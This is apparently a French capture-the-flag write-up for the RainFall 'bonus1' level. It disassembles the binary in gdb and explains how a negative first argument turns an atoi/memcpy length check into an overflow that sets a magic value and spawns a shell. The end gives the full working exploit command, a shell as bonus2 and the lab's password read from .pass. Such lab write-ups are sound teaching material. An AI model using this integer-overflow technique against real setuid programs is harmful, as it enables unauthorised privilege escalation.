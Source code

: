 # 11 - Trouve l'input 3

- On se connecte en tant que bonus1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

```
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
bonus1@RainFall:~$ gdb bonus1
```

```
Dump of assembler code for function main:
   0x08048424 <+0>:     push   %ebp
   0x08048425 <+1>:     mov    %esp,%ebp
   0x08048427 <+3>:     and    $0xfffffff0,%esp
   0x0804842a <+6>:     sub    $0x40,%esp
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    $0x0,%eax
   0x080484a3 <+127>:   leave  
   0x080484a4 <+128>:   ret    
End of assembler dump.
```

- Voyons les parties les plus importantes du programme:
```
   0x0804842d <+9>:     mov    0xc(%ebp),%eax
   0x08048430 <+12>:    add    $0x4,%eax
   0x08048433 <+15>:    mov    (%eax),%eax
   0x08048435 <+17>:    mov    %eax,(%esp)
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    %eax,0x3c(%esp)
   0x08048441 <+29>:    cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    $0x1,%eax
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
```
> `<atoi@plt>` le premier argument du programme, puis le compare à la valeur 9. Si il est plus grand, retourne.

```
   0x0804844f <+43>:    mov    0x3c(%esp),%eax
   0x08048453 <+47>:    lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:    mov    0xc(%ebp),%eax
   0x0804845d <+57>:    add    $0x8,%eax
   0x08048460 <+60>:    mov    (%eax),%eax
   0x08048462 <+62>:    mov    %eax,%edx
   0x08048464 <+64>:    lea    0x14(%esp),%eax
   0x08048468 <+68>:    mov    %ecx,0x8(%esp)
   0x0804846c <+72>:    mov    %edx,0x4(%esp)
   0x08048470 <+76>:    mov    %eax,(%esp)
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
```
>Copie n octets dans `[esp+0x14]` à partir du deuxième argument du programme, où n est le résultat de atoi multiplié par 4.

```
   0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    movl   $0x0,0x8(%esp)
   0x0804848a <+102>:   movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:   movl   $0x8048583,(%esp)
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
```
>`0x8048583: "/bin/sh"`

> Si la valeur en `0x3c(%esp)` est égale à 0x574f4c46 ("WOLF"), ouvre un shell.

- En donnant un nombre négatif comme premier argument, cela nous permet d'écrire suffisamment dans la mémoire:
```
bonus1@RainFall:~$ ./bonus1 -1073741800 abcdefghijklmnopqrstuvwxyzabcdefghijklmnFLOW

$ whoami
bonus2

$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```